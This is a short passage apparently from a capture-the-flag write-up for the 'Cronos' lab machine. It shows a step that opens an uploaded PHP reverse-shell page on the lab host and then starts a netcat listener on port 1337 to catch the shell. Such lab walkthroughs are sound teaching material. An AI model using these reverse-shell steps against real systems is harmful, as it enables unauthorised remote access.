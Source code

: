 ![](./IMG/25.png)
- Access it (http://admin.cronos.htb/php0reverse-shell.php)

![](./IMG/26.png)
- Execute nc to listen on port 1337, and check the status, it might get the reverse shell
```
nc -nlvp 1337
```
